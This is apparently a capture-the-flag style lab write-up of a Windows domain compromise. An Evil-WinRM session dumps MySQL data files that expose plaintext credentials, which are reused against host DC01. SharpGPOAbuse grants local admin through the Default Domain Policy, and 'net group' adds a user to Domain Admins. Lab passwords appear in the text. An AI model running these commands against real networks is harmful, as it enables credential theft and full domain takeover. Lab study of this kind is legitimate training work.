 
find sensitive creds in `C:\xampp\mysql\data\creds`:
```
*Evil-WinRM* PS C:\xampp\mysql\data\creds> dir


    Directory: C:\xampp\mysql\data\creds


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----         7/20/2022   3:54 PM           1023 creds.frm
-a----         7/20/2022   6:44 PM          98304 creds.ibd
-a----         7/20/2022   3:54 PM             65 db.opt


*Evil-WinRM* PS C:\xampp\mysql\data\creds> type creds.frm
þ

VÿùR!  ùCˆEöDí…­PVŠ™E±
(2€@2ÿPRIMARYÿInnoDBNNPR
                        P24ÿnameÿpassÿ
*Evil-WinRM* PS C:\xampp\mysql\data\creds> type creds.ibd
Qw8[œ▒▒@!ÿÿÿÿÿÿÿÿžžÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿ&&ÿÿÿÿÿÿÿÿªÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿQw8[œ¦ý&q˜˜▒ý&q˜˜·{Ôœ¦▒ÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÖiÒÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÖiÒÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿÿ·{Ôœ¦&G­[ÿÿÿÿÿÿÿÿ³E¿▒Ï€¦2▒ò▒2Cinfimum
                                                                                                                         supremum
        ÿñcharlotte€Game2On4.!
▒ÿÙadministrator€Almost4There8.?pc&G­[³
*Evil-WinRM* PS C:\xampp\mysql\data\creds> type db.opt
default-character-set=latin1
default-collation=latin1_swedish_ci
```

After obtaining domain admin, there is a flag in `C:\Users\Administrator\Desktop\proof.txt`

## 192.168.114.97 DC01

initial access:
`evil-winrm -i 192.168.114.97 -u charlotte -p "Game2On4.\!"`

A flag is in `C:\Users\charlotte\Desktop\local.txt`

![[Pasted image 20250104235257.png]]

`.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount charlotte --GPOName "Default Domain Policy"`

`exit` then relogin again

a flag in `C:\Users\Administrator.DC01\Desktop\proof.txt`

make charlotte domain admin: `net group "Domain Admins" charlotte /ADD /DOMAIN`
